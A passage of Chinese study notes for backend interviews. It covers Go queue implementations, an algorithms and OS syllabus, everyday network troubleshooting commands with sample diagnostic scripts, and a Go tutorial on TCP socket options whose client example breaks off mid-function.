func NewLinkedQueue() *LinkedQueue {
    return &LinkedQueue{}
}

func (q *LinkedQueue) Enqueue(val int) {
    newNode := &ListNode{Val: val}
    
    if q.IsEmpty() {
        q.front = newNode
        q.rear = newNode
    } else {
        q.rear.Next = newNode
        q.rear = newNode
    }
    q.size++
}

func (q *LinkedQueue) Dequeue() int {
    if q.IsEmpty() {
        panic("队列为空")
    }
    
    val := q.front.Val
    q.front = q.front.Next
    
    if q.front == nil {
        q.rear = nil
    }
    q.size--
    
    return val
}

func (q *LinkedQueue) Front() int {
    if q.IsEmpty() {
        panic("队列为空")
    }
    return q.front.Val
}

func (q *LinkedQueue) IsEmpty() bool {
    return q.front == nil
}

func (q *LinkedQueue) Size() int {
    return q.size
}
```

##### 5.3 循环队列

```go
type CircularQueue struct {
    data  []int
    head  int
    tail  int
    size  int
    capacity int
}

func NewCircularQueue(k int) *CircularQueue {
    return &CircularQueue{
        data:     make([]int, k),
        capacity: k,
    }
}

func (q *CircularQueue) EnQueue(value int) bool {
    if q.IsFull() {
        return false
    }
    
    q.data[q.tail] = value
    q.tail = (q.tail + 1) % q.capacity
    q.size++
    return true
}

func (q *CircularQueue) DeQueue() bool {
    if q.IsEmpty() {
        return false
    }
    
    q.head = (q.head + 1) % q.capacity
    q.size--
    return true
}

func (q *CircularQueue) Front() int {
    if q.IsEmpty() {
        return -1
    }
    return q.data[q.head]
}

func (q *CircularQueue) Rear() int {
    if q.IsEmpty() {
        return -1
    }
    return q.data[(q.tail-1+q.capacity)%q.capacity]
}

func (q *CircularQueue) IsEmpty() bool {
    return q.size == 0
}

func (q *CircularQueue) IsFull() bool {
    return q.size == q.capacity
}
```


#### **6、面试重点总结**

##### **6.1 常见题型**

| 数据结构 | 经典题目           | 考察重点           |
| :------- | :----------------- | :----------------- |
| **链表** | 反转、环检测、合并 | 指针操作、双指针   |
| **栈**   | 括号匹配、最小栈   | LIFO特性、单调栈   |
| **队列** | 滑动窗口、BFS      | FIFO特性、双端队列 |
| **数组** | 双指针、滑动窗口   | 索引操作、边界处理 |

BFS -- 广度优先搜索


##### **6.2 复杂度分析**

```
// 时间复杂度总结：
// 数组：访问O(1)，插入删除O(n)
// 链表：访问O(n)，插入删除O(1)  
// 栈/队列：入栈出栈O(1)

// 空间复杂度：通常O(n)
```


- **字符串匹配**：单串 BM/KMP；多串 字典树Trie/AC自动机/后缀数组，解决子串/回文等问题
- **排序**：二分查找，冒泡/插入/归并/堆排序/快速排序，掌握快排思路，使用sort.Sort()实现自定义排序
- **散列表Hash**：哈希算法，解决冲突（拉链/开放地址），动态扩容方案（参考java/golang）
- **跳表**：有序链表+多层索引，Redis使用跳表原因，实现有序Map对比红黑树优缺点
- **二叉树**：平衡二叉树/完全二叉树，AVL数/红黑树，java使用红黑树实现TreeMap原因
- **多路查找树**：B树/B+树，mysql使用B+树实现索引原因
- **堆**：大小顶堆，建堆/Fix()，解决优先队列/TopK/中位数问题，使用container/heap实现
- **动态规划DP**：核心是找到最优子结构（分治），解决背包等问题
- **搜索**：回溯/递归、深度dfs/广度bfs/启发式A*、记忆化搜索，解决数独/八皇后/旅行商等问题 
- **图**：邻接矩阵/邻接表、拓扑排序、最短路径 dijkstra/spfa/floyd，网络流/最大流 EK
- **其他**：数论&几何、位图Bitmap、并查集、线性规划等


## 操作系统

- **基础命令**：目录cd/ls/pwd、文件vim/cat/grep/awk、查询find、安转yum...
- **定位调试**：进程ps/strace、资源top/vmstat/iostat、网络netstat/tcpdump、文件lsof/du/df
- **经典x86架构**：Intel 8086，CPU/指令集架构/寄存器/总线/内存RAM/IO设备
- **系统调用**：进程fork/exec、信号kill/sigaciton、内存mmap、文件open/read/write、网络socket
- **进程管理**：进程/线程/协程区别，进程调度策略 抢占式/协作式，进程分类 IO/CPU密集型
- **进程间通讯IPC**：原子操作/共享内存/信号量/Socket，各个的原理和适用场景
- **进程地址空间**：进程独立，内存映射 物理->虚拟，函数栈/堆/内存映射/代码.全局变量.BSS
- **内存管理**：伙伴系统和slab分配器原理、内存映射mmap、交换空间swap
- **虚拟化和容器化**：KVM/容器Docker，隔离技术 Namespace/cgroup


## 计算机网络

- **TCP/IP协议栈**：物理链路层MAC/ARP、网络层IP、传输层TCP/UDP、应用层HTTP/FTP/DNS
- **连接状态**：TCP三次握手和四次挥手的过程，11种TCP状态的状态转换图
- **拥塞控制**：TCP拥塞控制算法和滑动窗口机制，粘包/顺序问题和解决方案
- **常见问题**：单机大量TIME_WAIT/CLOSE_WAIT连接原因，SYN/FIN洪水攻击和解决方案
- **链接池**：短连接和长连接的区别和应用场景，链接池的大小设置
- **连接心跳保活**：KeepAlive心跳保活机制，应用层和TCP层心跳区别和联系
- **I/O模型**：同步/异步/阻塞/非阻塞，IO多路复用 select/epoll
- **网络模式**：单进程/多进程/多线程，PPC/TPC优缺点，Reactor/Proactor模型和性能优化
- **高性能网络编程**：单机并发链接数上限，C10K/C10M问题和解决思路（多路复用/网络模式/零拷贝/选项优化等）
- **DNS**：从URL输入到页面展现流程，LocalDNS问题和HTTPDNS优化


### **定位问题工具**

> netstat/tcpdump（抓包）、连通性ping/dig/traceroute/nslookup、网卡ifconfig、防火墙iptables

#### 不同场景的工具选择

| 问题类型       | 首选工具      | 备用工具         | 说明               |
| :------------- | :------------ | :--------------- | :----------------- |
| **连接状态**   | `ss -tulpn`   | `netstat -tulpn` | 查看端口监听和连接 |
| **数据包分析** | `tcpdump`     | `tshark`         | **抓包**和分析     |
| **连通性**     | `ping`        | `tcping`         | 基本连通性测试     |
| **DNS问题**    | `dig`         | `nslookup`       | DNS解析诊断        |
| **路由跟踪**   | `traceroute`  | `mtr`            | 网络路径分析       |
| **带宽监控**   | `iftop`       | `nethogs`        | 实时流量监控       |
| **防火墙**     | `iptables -L` | `firewall-cmd`   | 规则检查           |

#### 1. 网络连接分析工具

##### 1.1 netstat - 网络连接状态分析

```bash
# 查看所有网络连接 all
netstat -a

Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 VM-32-165-centos:10248  0.0.0.0:*               LISTEN   

# 查看TCP连接及其状态 tcp
netstat -at

# 查看UDP连接 udp
netstat -au

# 显示监听端口 listen
netstat -l

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 VM-32-165-centos:10248  0.0.0.0:*               LISTEN   
......
Active UNIX domain sockets (only servers)
Proto RefCnt Flags       Type       State         I-Node   Path
unix  2      [ ACC ]     STREAM     LISTENING     616172040 /run/user/0/vscode-git-68aef4dd4a.sock
unix  2      [ ACC ]     STREAM     LISTENING     58810    /usr/local/tmanager/tmanager/tmanager-service.unix


# 显示进程ID和程序名 
# --programs  display PID/Program name for sockets
# -n, --numeric            don't resolve names
netstat -tulpn


# 统计各种连接状态
netstat -s

# 持续监控连接变化 --continuous         continuous listing
netstat -c

# 组合使用示例
netstat -tulpn | grep :80
```


##### 1.2 ss - netstat的现代替代品

```bash
# 查看所有TCP连接
ss -t

# 查看所有UDP连接  
ss -u

# 查看监听端口
ss -l

# 显示进程信息
ss -tp

# 按状态过滤
ss -t state established
ss -t state listening

# 查看socket统计 -s, --summary       show socket usage summary
ss -s

# 高级过滤：查看连接到特定端口的连接
ss -t dst :80
ss -t dst 192.168.1.1:443

# 查看特定进程的连接
ss -tpn | grep nginx
```


#### 2. 网络抓包分析

##### 2.1 tcpdump - 命令行抓包神器

```bash
# 基本抓包
tcpdump -i any                  # 监听所有接口
tcpdump -i eth0                # 指定网卡
tcpdump -c 100                 # 抓取100个包后停止

==>
17:21:25.943755 IP nginx.itheima.com.36000 > 10.32.96.38.62228: Flags [P.], seq 1554944:1555232, ack 5185, win 536, length 288


# 过滤表达式
tcpdump host 192.168.1.1       # 指定主机
tcpdump port 80                # 指定端口
tcpdump tcp port 22            # SSH流量
tcpdump icmp                   # ICMP流量

# 复杂过滤
tcpdump src 192.168.1.100 and dst port 80
tcpdump net 192.168.1.0/24
tcpdump tcp and not port 22    # 非SSH的TCP流量

# 输出控制
tcpdump -n                     # 不解析主机名
tcpdump -nn                    # 不解析端口和服务
tcpdump -v                     # 详细输出
tcpdump -vvv                   # 更详细输出
tcpdump -X                     # 十六进制和ASCII输出
tcpdump -A                     # ASCII输出

# 保存和读取
tcpdump -w capture.pcap        # 保存到文件
tcpdump -r capture.pcap        # 读取文件

# 实战示例
tcpdump -i eth0 -n tcp port 80 and host 8.8.8.8
```


#### 3. 网络连通性测试

##### 3.1 ping - 基本连通性测试

```bash
# 基本用法
ping google.com
ping 8.8.8.8

# 控制参数
ping -c 5 google.com          # 发送5个包
ping -i 2 google.com          # 2秒间隔
ping -s 1000 google.com       # 指定包大小
ping -W 3 google.com          # 超时3秒

# 高级用法
ping -D google.com           # 时间戳
ping -f google.com           # 洪水ping（需要root）
ping -R google.com           # 记录路由

# 持续监控
ping -c 100 -i 1 google.com > ping_log.txt

# IPv6测试
ping6 ipv6.google.com
```


##### 3.2 traceroute - 路径跟踪

```bash
# 基本用法
traceroute google.com
==>
traceroute to google.com (93.46.8.90), 30 hops max, 60 byte packets
 1  11.0.29.87 (11.0.29.87)  1.104 ms  1.206 ms  1.193 ms
 2  * * *
 

# 高级选项
traceroute -I google.com        # 使用ICMP
traceroute -T google.com        # 使用TCP
traceroute -U google.com        # 使用UDP
traceroute -w 2 google.com     # 超时2秒
traceroute -q 3 google.com      # 每跳3次查询
traceroute -m 30 google.com     # 最大30跳

# 显示AS信息
traceroute -A google.com

# 不解析IP为主机名
traceroute -n google.com
```


##### 3.3 端口连通性测试

```bash
# 使用telnet测试端口
telnet google.com 80

# 使用nc (netcat) 测试
nc -zv google.com 80
nc -zv 192.168.1.1 22

# 使用nmap扫描端口
nmap -p 80,443,22 google.com

# 使用curl测试HTTP服务
curl -I http://google.com
```


#### 4. DNS诊断工具

##### 4.1 dig - DNS查询工具

```bash
# 基本查询
dig google.com
dig @8.8.8.8 google.com        # 指定DNS服务器

# 查询特定记录类型
dig google.com A               # A记录
dig google.com MX              # MX记录
dig google.com NS              # NS记录
dig google.com TXT             # TXT记录

# 详细输出控制
dig +short google.com          # 简短输出
dig +trace google.com          # 跟踪解析过程
dig +stats google.com          # 显示统计信息
dig +nocmd google.com          # 不显示命令信息

# 批量查询
dig -f domains.txt

# 反向DNS查询
dig -x 8.8.8.8
```

##### 4.2 nslookup - 交互式DNS查询

```bash
# 交互模式
nslookup
> server 8.8.8.8              # 设置DNS服务器
> set type=MX                 # 设置查询类型
> google.com
> exit

# 命令行模式
nslookup google.com
nslookup -type=MX google.com
nslookup 8.8.8.8              # 反向查询
```


#### 5. 网络接口管理

##### 5.1 ifconfig - 网络接口配置

```bash
# 查看所有接口信息
ifconfig
ifconfig -a                   # 包括禁用接口

# 查看特定接口
ifconfig eth0
ifconfig wlan0

# 配置网络接口
ifconfig eth0 192.168.1.100 netmask 255.255.255.0
ifconfig eth0 up              # 启用接口
ifconfig eth0 down            # 禁用接口

# 设置MTU
ifconfig eth0 mtu 1500

# 查看统计信息
ifconfig eth0 | grep "RX packets"
```

##### 5.2 ip - ifconfig的现代替代品

```bash
# 查看IP地址
ip addr show
ip a

# 查看路由表
ip route show
ip r

# 查看ARP表
ip neigh show

# 接口管理
ip link set eth0 up
ip link set eth0 down

# 添加IP地址
ip addr add 192.168.1.100/24 dev eth0

# 查看网络统计
ip -s link
```

#### 6. 防火墙诊断

##### 6.1 iptables - 防火墙规则管理

```bash
# 查看规则
iptables -L -n -v             # 列出所有规则
iptables -t nat -L -n -v      # 查看NAT表

# 查看具体链的规则
iptables -L INPUT -n -v
iptables -L OUTPUT -n -v

# 重置规则
iptables -F                   # 清空所有规则
iptables -X                   # 删除用户自定义链
iptables -Z                   # 计数器归零

# 保存和恢复规则
iptables-save > firewall.rules
iptables-restore < firewall.rules

# 添加规则示例
iptables -A INPUT -p tcp --dport 22 -j ACCEPT    # 允许SSH
iptables -A INPUT -p tcp --dport 80 -j ACCEPT    # 允许HTTP
iptables -A INPUT -j DROP                        # 默认拒绝

# 调试规则
iptables -L -n --line-numbers                   # 显示行号
```


#### 7. 综合故障排查流程

##### 7.1 网络连接问题排查脚本

```bash
#!/bin/bash
# network_troubleshoot.sh

echo "=== 网络故障排查开始 ==="

# 1. 检查网络接口
echo "1. 网络接口状态:"
ip addr show | grep -E "eth0|wlan0"

# 2. 检查默认网关
echo -e "\n2. 路由表:"
ip route show

# 3. 检查DNS解析
echo -e "\n3. DNS解析测试:"
nslookup google.com

# 4. 检查基本连通性
echo -e "\n4. 连通性测试:"
ping -c 3 8.8.8.8

# 5. 检查端口监听
echo -e "\n5. 监听端口:"
netstat -tulpn | grep LISTEN

# 6. 检查防火墙规则
echo -e "\n6. 防火墙规则:"
iptables -L -n

# 7. 检查网络统计
echo -e "\n7. 网络统计:"
ip -s link

echo "=== 排查完成 ==="
```

#### 8. 高级诊断技巧

##### 8.1 实时网络监控

```bash
# 使用iftop监控带宽
iftop -i eth0

# 使用iptraf进行交互式监控
iptraf-ng

# 使用nethogs监控进程带宽
nethogs eth0

# 使用bmon监控带宽
bmon
```

##### 8.2 数据包分析进阶

```bash
# 使用tshark (Wireshark命令行版)
tshark -i eth0 -f "tcp port 80" -V

# 实时HTTP流量分析
tcpdump -i eth0 -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'

# 提取HTTP请求
tcpdump -i eth0 -s 0 -A 'tcp port 80 and tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420'
```


#####  Web服务器无法访问排查

```go
#!/bin/bash
# web_server_troubleshoot.sh

SERVER="192.168.1.100"
PORT="80"

echo "排查Web服务器 $SERVER:$PORT 问题..."

# 1. 检查服务器是否在线
echo "1. 服务器连通性:"
ping -c 3 $SERVER

# 2. 检查端口是否开放
echo -e "\n2. 端口检测:"
nc -zv $SERVER $PORT

# 3. 检查本地防火墙
echo -e "\n3. 本地防火墙规则:"
iptables -L -n | grep $PORT

# 4. 检查服务器防火墙
echo -e "\n4. 远程服务器端口状态:"
# 需要在服务器上执行: netstat -tulpn | grep :$PORT

# 5. 数据包跟踪
echo -e "\n5. 开始数据包捕获(10秒):"
timeout 10 tcpdump -i any host $SERVER and port $PORT

echo "排查完成"
```


### **Socket编程**

> 常用api/option，缓冲区大小/地址重用/立即关闭LINGER/禁用Nagle算法等

**关键Socket选项：**

- ✅ **SO_REUSEADDR**：解决"Address already in use"，快速重启
- ✅ **SO_REUSEPORT**：Linux端口复用，负载均衡
- ✅ **TCP_NODELAY**：禁用Nagle算法，减少延迟
- ✅ **SO_LINGER**：控制关闭行为，立即关闭或等待
- ✅ **SO_SNDBUF/SO_RCVBUF**：调整缓冲区大小
- ✅ **SO_KEEPALIVE**：保持连接活性检测

**性能调优建议：**

1. **Web服务**：大接收缓冲区 + 禁用Nagle + KeepAlive
2. **实时应用**：小缓冲区 + 禁用Nagle + 立即关闭
3. **大数据传输**：大缓冲区 + 启用Nagle + 长超时

#### **1. Socket基础API**

##### **1.1 创建Socket**

```go
import (
    "net"
    "syscall"
    "time"
)

// 创建TCP Socket
func createSocket() (int, error) {
    // 域: AF_INET(IPv4), AF_INET6(IPv6)
    // 类型: SOCK_STREAM(TCP), SOCK_DGRAM(UDP)
    // 协议: 0(自动选择)
    fd, err := syscall.Socket(syscall.AF_INET, syscall.SOCK_STREAM, 0)
    if err != nil {
        return -1, err
    }
    return fd, nil
}
```

##### **1.2 地址绑定**

```go
func bindSocket(fd int, ip string, port int) error {
    addr := syscall.SockaddrInet4{
        Port: port,
        Addr: ipTo4(ip), // 转换IP为4字节
    }
    return syscall.Bind(fd, &addr)
}
```

#### **2. 关键Socket选项（SOL_SOCKET级别）**

##### **2.1 地址重用（Address Reuse）**

```
// 解决"Address already in use"问题
func setReuseAddr(fd int) error {
    reuse := 1
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_REUSEADDR, reuse)
}

// 端口重用（Linux特有）
func setReusePort(fd int) error {
    reuse := 1
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_REUSEPORT, reuse)
}
```

##### **2.2 缓冲区大小**

```
// 设置发送缓冲区大小（默认8KB-64KB）
func setSendBufferSize(fd int, size int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_SNDBUF, size)
}

// 设置接收缓冲区大小
func setRecvBufferSize(fd int, size int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_RCVBUF, size)
}

// 获取当前缓冲区大小
func getBufferSizes(fd int) (sendSize, recvSize int, err error) {
    sendSize, err = syscall.GetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_SNDBUF)
    if err != nil {
        return
    }
    recvSize, err = syscall.GetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_RCVBUF)
    return
}
```

##### **2.3 立即关闭（LINGER选项）**

```go
type Linger struct {
    Onoff  int32 // 0=禁用, 1=启用
    Linger int32 // 延迟时间(秒)
}

func setLingerOption(fd int, immediate bool) error {
    var linger syscall.Linger
    if immediate {
        linger.Onoff = 1  // 启用linger(徘徊)
        linger.Linger = 0  // 立即关闭，丢弃未发送数据
    } else {
        linger.Onoff = 0  // 禁用linger，使用默认行为
    }
    return syscall.SetsockoptLinger(fd, syscall.SOL_SOCKET, syscall.SO_LINGER, &linger)
}
```


#### **3. TCP特定选项（IPPROTO_TCP级别）**

##### **3.1 Nagle算法控制**

**Nagle算法** 是由 John Nagle 在1984年提出的，用于解决 **"小包问题"**（tinygram problem）。

**核心思想：**"当有**未确认**的数据在传输时，**后续的小数据包**应该等待，直到积累到一定大小或收到确认后再发送"

适用场景：大文件传输。

```go
// 禁用Nagle算法（减少延迟，适合实时应用）
func disableNagle(fd int) error {
    nodelay := 1
    return syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_NODELAY, nodelay)
}

// 启用Nagle算法（默认启用，减少小包，提高吞吐量）
func enableNagle(fd int) error {
    nodelay := 0
    return syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_NODELAY, nodelay)
}
```

##### **3.2 KeepAlive设置**

```go
// 启用TCP KeepAlive
func enableKeepAlive(fd int) error {
    keepalive := 1
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_KEEPALIVE, keepalive)
}

// 设置KeepAlive参数（Linux特有）
func setKeepAliveParams(fd int, idle, interval, count int) error {
    // 首次探测前的空闲时间
    syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_KEEPIDLE, idle)
    // 探测间隔
    syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_KEEPINTVL, interval)
    // 探测次数
    syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_KEEPCNT, count)
    return nil
}
```

##### **3.3 其他TCP优化选项**

```go
// 启用快速打开（TCP Fast Open）
func enableTCPFastOpen(fd int) error {
    fastopen := 1
    return syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, 0x17, fastopen) // Linux TCP_FASTOPEN
}

// 设置最大段大小（MSS）
func setTCPMSS(fd int, mss int) error {
    return syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_MAXSEG, mss)
}
```

#### **4. 高级选项**

##### **4.1 超时设置**

```
// 设置接收超时
func setRecvTimeout(fd int, timeout time.Duration) error {
    tv := syscall.NsecToTimeval(timeout.Nanoseconds())
    return syscall.SetsockoptTimeval(fd, syscall.SOL_SOCKET, syscall.SO_RCVTIMEO, &tv)
}

// 设置发送超时
func setSendTimeout(fd int, timeout time.Duration) error {
    tv := syscall.NsecToTimeval(timeout.Nanoseconds())
    return syscall.SetsockoptTimeval(fd, syscall.SOL_SOCKET, syscall.SO_SNDTIMEO, &tv)
}
```

##### **4.2 非阻塞模式**

```
// 设置非阻塞Socket
func setNonBlocking(fd int) error {
    return syscall.SetNonblock(fd, true)
}

// 使用epoll/kqueue进行异步IO（Linux示例）
func setupEpoll(fd int) error {
    epfd, err := syscall.EpollCreate1(0)
    if err != nil {
        return err
    }
    
    event := syscall.EpollEvent{
        Events: syscall.EPOLLIN | syscall.EPOLLET, // 可读事件 + 边缘触发
        Fd:     int32(fd),
    }
    return syscall.EpollCtl(epfd, syscall.EPOLL_CTL_ADD, fd, &event)
}
```

#### **5. 完整的Socket**示例

##### **5.1 优化后的TCP Server Socket**

```go
func createOptimizedTCPSocket(ip string, port int) (int, error) {
    // 1. 创建Socket
    fd, err := syscall.Socket(syscall.AF_INET, syscall.SOCK_STREAM, 0)
    if err != nil {
        return -1, err
    }

    // 2. 设置Socket选项
    options := []func(int) error{
        setReuseAddr,           // 地址重用
        setReusePort,           // 端口重用（Linux）
        func(fd int) error {    // 大接收缓冲区
            return setRecvBufferSize(fd, 128 * 1024) // 128KB
        },
        disableNagle,           // 低延迟应用禁用Nagle
        enableKeepAlive,        // 启用KeepAlive
    }

    for _, opt := range options {
        if err := opt(fd); err != nil {
            syscall.Close(fd)
            return -1, err
        }
    }

    // 3. 绑定地址
    if err := bindSocket(fd, ip, port); err != nil {
        syscall.Close(fd)
        return -1, err
    }

    // 4. 开始监听
    if err := syscall.Listen(fd, 1024); err != nil {
        syscall.Close(fd)
        return -1, err
    }

    return fd, nil
}
```

##### **5.2 高性能Client Socket**

```go
func createOptimizedClientSocket() (int, error) {
    fd, err := syscall.Socket(syscall.AF_INET, syscall.SOCK_STREAM, 0)
    if err != nil {
        return -1, err
    }

    // 客户端优化选项
    options := []func(int) error{
        setReuseAddr,
        disableNagle,           // 禁用Nagle获得更低延迟
        func(fd int) error {    // 较小的发送缓冲区
            return setSendBufferSize(fd, 32 * 1024) // 32KB
        },
        setLingerImmediate,     // 立即关闭
    }

    for _, opt := range options {
        if err := opt(fd); err != nil {
            syscall.Close(fd)
            return -1, err
        }
    }

    return fd, nil
}
```

##### **完整的 Socket 代码示例**

###### server

```go
package main

import (
    "fmt"
    "log"
    "net"
    "syscall"
    "time"
)

// Socket 优化配置函数
func setReuseAddr(fd int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_REUSEADDR, 1)
}

func setReusePort(fd int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, 0x0F, 1) // SO_REUSEPORT
}

func setRecvBufferSize(fd int, size int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_RCVBUF, size)
}

func setSendBufferSize(fd int, size int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_SNDBUF, size)
}

func disableNagle(fd int) error {
    return syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_NODELAY, 1)
}

func enableKeepAlive(fd int) error {
    return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_KEEPALIVE, 1)
}

func setLingerImmediate(fd int) error {
    linger := &syscall.Linger{
        Onoff:  1, // 启用
        Linger: 0, // 立即关闭
    }
    return syscall.SetsockoptLinger(fd, syscall.SOL_SOCKET, syscall.SO_LINGER, linger)
}

// 5.1 优化后的TCP Server Socket
func createOptimizedTCPSocket(ip string, port int) (int, error) {
    // 1. 创建Socket
    fd, err := syscall.Socket(syscall.AF_INET, syscall.SOCK_STREAM, 0)
    if err != nil {
        return -1, fmt.Errorf("创建socket失败: %v", err)
    }

    // 2. 设置Socket选项
    options := []func(int) error{
        setReuseAddr,
        setReusePort,
        func(fd int) error {
            return setRecvBufferSize(fd, 128 * 1024) // 128KB
        },
        disableNagle,
        enableKeepAlive,
    }

    for _, opt := range options {
        if err := opt(fd); err != nil {
            syscall.Close(fd)
            return -1, fmt.Errorf("设置socket选项失败: %v", err)
        }
    }

    // 3. 绑定地址
    addr := syscall.SockaddrInet4{Port: port}
    copy(addr.Addr[:], net.ParseIP(ip).To4())
    
    if err := syscall.Bind(fd, &addr); err != nil {
        syscall.Close(fd)
        return -1, fmt.Errorf("绑定地址失败: %v", err)
    }

    // 4. 开始监听
    if err := syscall.Listen(fd, 1024); err != nil {
        syscall.Close(fd)
        return -1, fmt.Errorf("监听失败: %v", err)
    }

    fmt.Printf("✅ 服务器启动成功，监听 %s:%d\n", ip, port)
    return fd, nil
}

// 处理客户端连接
func handleClient(fd int) {
    defer syscall.Close(fd)
    
    // 设置读取超时
    timeout := syscall.Timeval{Sec: 30}
    syscall.SetsockoptTimeval(fd, syscall.SOL_SOCKET, syscall.SO_RCVTIMEO, &timeout)
    
    buffer := make([]byte, 4096)
    
    for {
        // 读取客户端数据
        n, err := syscall.Read(fd, buffer)
        if err != nil {
            if err == syscall.EAGAIN || err == syscall.EWOULDBLOCK {
                continue // 超时，继续等待
            }
            fmt.Printf("客户端断开连接: %v\n", err)
            return
        }
        
        if n == 0 {
            fmt.Println("客户端正常关闭连接")
            return
        }
        
        message := string(buffer[:n])
        fmt.Printf("收到消息: %s", message)
        
        // 回显响应
        response := fmt.Sprintf("服务器响应 [%s]: %s", time.Now().Format("15:04:05"), message)
        if _, err := syscall.Write(fd, []byte(response)); err != nil {
            fmt.Printf("发送响应失败: %v\n", err)
            return
        }
        
        // 如果是退出命令
        if message == "quit\n" {
            syscall.Write(fd, []byte("再见！\n"))
            return
        }
    }
}

// 启动服务器
func startServer(ip string, port int) {
    // 创建优化后的socket
    listenFd, err := createOptimizedTCPSocket(ip, port)
    if err != nil {
        log.Fatal(err)
    }
    defer syscall.Close(listenFd)
    
    fmt.Println("🚀 高性能Socket服务器已启动，等待连接...")
    
    for {
        // 接受客户端连接
        clientFd, _, err := syscall.Accept(listenFd)
        if err != nil {
            fmt.Printf("接受连接失败: %v\n", err)
            continue
        }
        
        fmt.Printf("新的客户端连接: fd=%d\n", clientFd)
        
        // 为每个客户端创建goroutine处理
        go handleClient(clientFd)
    }
}

func main() {
    // 启动服务器
    startServer("127.0.0.1", 8089)
}
```

===>

```
✅ 服务器启动成功，监听 127.0.0.1:8089
🚀 高性能Socket服务器已启动，等待连接...
新的客户端连接: fd=5
收到消息: 1111
收到消息: 2222
```


###### client.go

```go
package main

import (
	"bufio"
	"fmt"
	"log"
	"net"
	"os"
	"syscall"
	"time"
)

// Socket 优化配置函数
func setReuseAddr(fd int) error {
	return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_REUSEADDR, 1)
}

func setReusePort(fd int) error {
	return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, 0x0F, 1) // SO_REUSEPORT
}

func setRecvBufferSize(fd int, size int) error {
	return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_RCVBUF, size)
}

func setSendBufferSize(fd int, size int) error {
	return syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_SNDBUF, size)
}

func disableNagle(fd int) error {
	return syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, syscall.TCP_NODELAY, 1)
}

func setLingerImmediate(fd int) error {
	linger := &syscall.Linger{
		Onoff:  1, // 启用
		Linger: 0, // 立即关闭
	}
	return syscall.SetsockoptLinger(fd, syscall.SOL_SOCKET, syscall.SO_LINGER, linger)
}

// 5.2 高性能Client Socket
func createOptimizedClientSocket() (int, error) {
	fd, err := syscall.Socket(syscall.AF_INET, syscall.SOCK_STREAM, 0)
	if err != nil {
		return -1, fmt.Errorf("创建socket失败: %v", err)
	}

	// 客户端优化选项
	options := []func(int) error{
		setReuseAddr,
		disableNagle,
		func(fd int) error {
			return setSendBufferSize(fd, 32*1024) // 32KB
		},
		setLingerImmediate,
	}

	for _, opt := range options {
		if err := opt(fd); err != nil {
			syscall.Close(fd)
			return -1, fmt.Errorf("设置socket选项失败: %v", err)
		}
	}

	return fd, nil
}

// 连接到服务器
func connectToServer(ip string, port int) (int, error) {
	fd, err := createOptimizedClientSocket()
	if err != nil {
		return -1, err
	}

	// 解析服务器地址
	addr := syscall.SockaddrInet4{Port: port}
	copy(addr.Addr[:], net.ParseIP(ip).To4())

	// 设置连接超时
	timeout := syscall.Timeval{Sec: 5}
	syscall.SetsockoptTimeval(fd, syscall.SOL_SOCKET, syscall.SO_SNDTIMEO, &timeout)

	// 连接服务器
	if err := syscall.Connect(fd, &addr); err != nil {
		syscall.Close(fd)
		return -1, fmt.Errorf("连接服务器失败: %v", err)
	}

	fmt.Printf("✅ 已连接到服务器 %s:%d\n", ip, port)
	return fd, nil
}

// 发送消息到服务器
func sendMessage(fd int, message string) error {
	// 添加换行符
	if message[len(message)-1] != '\n' {
		message += "\n"
	}

	// 发送消息
	_, err := syscall.Write(fd, []byte(message))
	if err != nil {
		return fmt.Errorf("发送失败: %v", err)
	}

	// 读取响应
	buffer := make([]byte, 4096)
	n, err := syscall.Read(fd, buffer)
	if err != nil {
		return fmt.Errorf("读取响应失败: %v", err)
	}

	if n > 0 {
		fmt.Printf("服务器响应: %s", string(buffer[:n]))
	}

	return nil
}

// 交互式客户端
func startInteractiveClient(ip string, port int) {
	fd, err := connectToServer(ip, port)
	if err != nil {
		log.Fatal(err)
	}
	defer syscall.Close(fd)

	fmt.Println("📝 输入消息发送到服务器，输入 'quit' 退出")

	scanner := bufio.NewScanner(os.Stdin)
	for {
		fmt.Print("> ")
		if !scanner.Scan() {
			break
		}

		message := scanner.Text()
		if message == "quit" {
			sendMessage(fd, "quit\n")
			break
		}

		if err := sendMessage(fd, message); err != nil {
			fmt.Printf("通信错误: %v\n", err)
			break
		}

		// 短暂延迟，避免过快发送
		time.Sleep(100 * time.Millisecond)
	}

	fmt.Println("客户端已退出")
}

// 性能测试客户端
func startPerformanceTestClient(ip string, port int, messageCount int) {
	fd, err := connectToServer(ip, port)
	if err != nil {
		log.Fatal(err)
	}
